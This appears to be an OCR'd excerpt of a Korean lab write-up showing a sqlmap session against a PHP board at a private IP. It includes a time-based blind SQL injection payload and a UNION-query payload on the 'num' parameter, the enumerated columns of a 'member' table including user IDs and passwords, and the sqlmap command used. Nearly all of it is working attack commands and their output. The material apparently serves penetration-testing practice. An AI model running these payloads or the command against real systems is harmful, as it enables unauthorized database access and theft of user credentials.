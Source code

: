 ```
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: num=1 AND (SELECT 1937 FROM (SELECT(SLEEP(5)))mvSW)

    Type: UNION query
    Title: Generic UNION query (NULL) - 11 columns
    Payload: num=-7367 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716b7a7a71,0x4d5a4a437959714c74746f48517664794f6f4c734e7866545567667464654e726d5a5542464e5977,0x7178717071),NULL,NULL,NULL-- -
---
[14:45:07] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[14:45:07] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) columns
[14:45:07] [INFO] fetching current database
[14:45:07] [WARNING] reflective value(s) found and filtering out
[14:45:07] [INFO] fetching columns for table 'member' in database 'WebTest'
[14:45:07] [INFO] retrieved: 'no','int(11)'
[14:45:07] [INFO] retrieved: 'u_id','varchar(20)'
[14:45:07] [INFO] retrieved: 'u_pass','varchar(50)'
[14:45:07] [INFO] retrieved: 'u_name','varchar(20)'
[14:45:07] [INFO] retrieved: 'nickname','char(20)'
[14:45:07] [INFO] retrieved: 'age','int(11)'
[14:45:07] [INFO] retrieved: 'email','char(50)'
[14:45:07] [INFO] retrieved: 'reg_date','datetime'
Database: WebTest                                                                             
Table: member
[8 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| no       | int(11)     |
| age      | int(11)     |
| email    | char(50)    |
| nickname | char(20)    |
| reg_date | datetime    |
| u_id     | varchar(20) |
| u_name   | varchar(20) |
| u_pass   | varchar(50) |
+----------+-------------+

[14:45:07] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/172.16.10.20'                                                                                     

[*] ending @ 14:45:07 /2020-10-22/

```

Board 테이블 확인

root@kali-04:~# sqlmap -u "http://172.16.10.20/board/board_view.php?num=1" -p "num" -T "member" --columns
